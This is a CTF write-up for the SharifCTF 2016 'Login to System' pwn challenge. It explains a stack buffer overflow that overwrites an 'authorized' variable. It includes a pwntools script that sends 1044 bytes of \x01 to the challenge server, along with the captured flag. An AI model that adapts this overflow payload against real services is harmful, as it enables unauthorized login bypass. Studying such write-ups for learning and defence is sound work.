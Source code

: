 +++
authors = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-06T22:31:14+01:00"
title = "SharifCTF 2016 Login to System (PWN 200) Writeup"
+++

# Problem

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Run and capture the flag!
>
> Download

Points: 200

Solved by 106 team(s)

# Solution

We are provided with a x86-64 linux executable:
~~~
Question: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76aad63504451c70d8aa4e72299d2821fcf1b9f1, stripped
~~~

It is a server that starts a new handler thread for each incoming TCP connection on port 27515.

- The handler function prints a welcome message and reads your username and password.
- Then it checks if a stack variable, let's call it `authorized`, is `1`.
- If true, reads the flag from file system and prints it.

There are several strange things going on here.

- Username and password are both able to overwrite the stack.
- The stack value `authorized` is read but never written to.

I was over thinking here and thought awesome - let's smash the stack jump into the true case in the if clause and get the flag. So I spent some time trying to get a nice ROP to do what I wanted. Big waste of time.

It turns out that the stack value `authorized` is located after both username and password, so the solution was to just fill the stack with \x01 and get the flag.

~~~
#!/usr/bin/env python2

from pwn import *
context(os = 'linux', arch = 'amd64')

r = remote('ctf.sharif.edu', 27515)

print r.recv()

r.sendline("Hello") # username
print r.recv()

r.sendline("\x01"*(1044)) # password
print r.recv()
~~~

Running it gets us the flag immediately.

~~~
Please enter your username and then press enter: Hello
Please enter your password and then press enter: \x01...
You are already logged in! Your flag is: cgjxkkbmdhudbovtezyv
~~~


*Flag is cgjxkkbmdhudbovtezyv*
